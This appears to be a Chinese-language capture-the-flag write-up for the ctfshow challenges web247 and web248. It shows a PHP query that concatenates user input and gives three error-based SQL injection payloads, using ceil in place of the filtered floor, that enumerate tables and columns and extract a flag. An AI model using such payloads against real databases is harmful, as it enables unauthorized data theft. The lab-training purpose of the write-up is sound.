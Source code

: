 

#### web247

```php
sql语句

  
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤
  过滤updatexml extractvalue floor
```

这道题floor函数也被ban掉了

根据floor报错注入的原理，其实我们可以知道，之所以会出现错误主要是因为用floor对rand(0)*2进行取整，目的输出011011...的结果，而既然这样我们只需要找一个同样能进行取整的函数来代替floor就ok了

除了floor之外，我们还能使用round，ceil等

payload

```
查表 
1' union select 1,count(*),concat(0x3a,0x3a,(select (table_name) from information_schema.tables where table_schema=database()  limit 1,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
查列 
1' union select 1,count(*),concat(0x3a,0x3a,(select (column_name) from information_schema.columns where table_name='ctfshow_flagsa'  limit 1,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
查数据 
1' union select 1,count(*),concat(0x3a,0x3a,(select (`flag?`) from ctfshow_flagsa  limit 0,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
```



#### web248

```php
sql语句

  
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤,
```

UDF注入

[ctfshow-web入门-sql注入-web248-UDF 注入_ctfshow web248-CSDN博客](https://blog.csdn.net/Myon5/article/details/142146339)
